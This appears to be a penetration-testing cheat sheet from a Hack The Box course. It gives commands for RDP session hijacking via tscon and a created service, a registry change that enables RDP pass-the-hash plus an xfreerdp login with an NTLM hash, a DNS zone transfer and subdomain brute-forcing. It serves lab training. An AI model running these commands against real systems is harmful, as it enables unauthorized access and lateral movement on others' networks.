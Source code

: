 Session Hijacking

```powershell
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}

C:\htb> query user # query users 

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0" # Hijack

C:\htb> net start sessionhijack # Start command 
```

_Note: This method no longer works on Server 2019._


### RDP Pass-the-Hash (PtH)

Adding the DisableResrictedAdmin Registry Key

```powershell
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

```powershell
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

 Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?

### <span style="color: blue">DNS </span>

#### DIG - AXFR Zone Transfer

```css
dig AXFR @ns1.inlanefreight.htb inlanefreight.htb
```

```css
fierce --domain zonetransfer.me
```

#### Subbrute

```css
Sauuron@htb[/htb]$ git clone https://github.com/TheRook/subbrute.git >> /dev/null 2>&1
Sauuron@htb[/htb]$ cd subbrute
Sauuron@htb[/htb]$ echo "ns1.inlanefreight.com" > ./resolvers.txt
Sauuron@htb[/htb]$ ./subbrute inlanefreight.com -s ./names.txt -r ./resolvers.txt

Warning: Fewer than 16 resolvers per process, consider adding more nameservers to resolvers.txt.
inlanefreight.com
ns2.inlanefreight.com
www.inlanefreight.com
ms1.inlanefreight.com
support.inlanefreight.com

<SNIP>
```
